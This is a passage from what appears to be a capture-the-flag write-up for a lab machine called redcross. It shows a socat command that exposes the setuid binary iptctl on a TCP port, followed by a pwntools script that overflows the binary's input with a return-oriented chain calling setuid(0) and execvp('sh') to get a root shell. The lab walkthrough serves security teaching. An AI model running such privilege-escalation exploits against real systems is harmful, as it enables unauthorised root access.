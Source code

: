 #### Interaction

It can sometimes be a pain to interact with a binary like `iptctl` that is sending prompts and looking for input on stdin. I could use `pwntools`, but that won’t be installed on the target system. But socat is on the target system. So I’ll use `socat` to listen on a socket and have that interact with the program. Then, I can connect from my host and use `pwntools` to get a shell.

`socat` [takes two multidirectional byte streams and connects them](https://linux.die.net/man/1/socat). The two parameters are the two streams, like this:

```

socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"

```

This defines the first stream as listening on TCP 9001. The second stream is the program running in interactive mode.

Now I can set the target of my exploit to 10.10.10.113:9001, and run it.

#### Exploit

All of that adds up to:

```

  1 #!/usr/bin/env python
  2 # on redcross setup iptctl with socat listening on 9001
  3 # socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"
  4 
  5 from pwn import *
  6 
  7 
  8 # addresses
  9 execvp  = p64(0x400760) # execve plt
 10 setuid  = p64(0x400780) # setuid plt
 11 pop_rdi = p64(0x400de3) # pop rdi; ret
 12 pop_rsi = p64(0x400de1) # pop rsi; pop r15; retd
 13 sh_str  = p64(0x40046e) # "sh"
 14 
 15 #setup payload
 16 payload = "allow" +("A"*29)
 17 
 18 # setuid(0)
 19 payload += pop_rdi
 20 payload += p64(0)
 21 payload += setuid
 22 
 23 # execvp("sh", 0)
 24 payload += pop_rdi
 25 payload += sh_str
 26 payload += pop_rsi
 27 payload += p64(0)
 28 payload += p64(0)
 29 payload += execvp
 30 
 31 payload += "\n7.8.8.9\n"
 32 
 33 log.info("Attempting to connect")
 34 try:
 35     p = remote("10.10.10.113",9001)
 36 except pwnlib.exception.PwnlibException:
 37     log.warn("Could not connect to target")
 38     log.warn('Is socat running on target?')
 39     log.warn('TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?')
 40     exit()
```
